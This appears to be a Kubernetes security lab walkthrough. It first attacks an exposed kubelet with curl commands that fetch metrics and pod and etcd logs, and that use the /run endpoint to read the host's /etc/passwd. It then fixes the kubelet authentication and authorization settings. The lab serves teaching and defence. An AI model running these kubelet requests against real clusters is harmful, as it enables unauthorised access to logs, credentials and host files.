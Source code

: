 # Kubelet

## Attack

Before fixing the kubelet we will try to get sensitive data via the kubelet.

### Preparations

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# store the external IP of the worker node
export IP=$(gcloud compute instances list --filter="name=kubernetes-security" --format json | jq '.[].networkInterfaces[].accessConfigs[].natIP' | tr -d \")
```

### Getting sensitive data from the kubelet

```bash
# getting metrics from the kubelet
curl -k https://$IP:10250/metrics

# getting log infos from the kubelet
curl -k https://$IP:10250/logs/pods/ | grep etcd

# getting logs from etcd eg `curl -k https://$IP:10250/logs/pods/kube-system_etcd-kubernetes-security_87a0e13f2b523002a1f9bd2decbc296d/etcd/0.log`
curl -k https://$IP:10250/logs/pods/<ETCD_POD>/etcd/0.log

# getting infos from the host
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```

## Avoiding the Attack

### SSH into the VM

```bash
gcloud compute ssh root@kubernetes-security --zone europe-west3-a
```

### vi the kubelet config

```bash
vi /var/lib/kubelet/config.yaml
```

### Fix Authentication

```yaml
authentication:
  anonymous:
    enabled: true # <= change to false
```

### Fix Authorization

```yaml
authorization:
  mode: AlwaysAllow # <= change to Webhook
```

### Restart the kubelet and check the status

```bash
systemctl restart kubelet

systemctl status kubelet
```

### Verify kubelet is now safe again

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# try to attack the kublet again - now you will get an `Unauthorized` response
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```
